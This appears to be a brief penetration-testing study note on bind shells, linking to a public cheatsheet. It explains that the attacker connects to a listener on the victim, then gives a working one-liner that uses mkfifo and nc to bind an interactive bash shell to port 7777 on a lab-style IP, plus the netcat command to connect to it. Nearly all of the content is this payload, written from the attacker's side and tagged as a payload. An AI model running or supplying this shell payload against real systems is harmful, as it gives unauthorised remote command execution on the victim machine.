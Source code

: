 https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-bind-cheatsheet/
### Bind shells are when we connect to the client. Client starts the listener. We, the attacker will connect to the listener running on client.

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

```shell-session
nc -nv 10.129.41.200 7777
```
# Tags
> #Pre-Exploitation #Shells #Payloads #Bind-Shells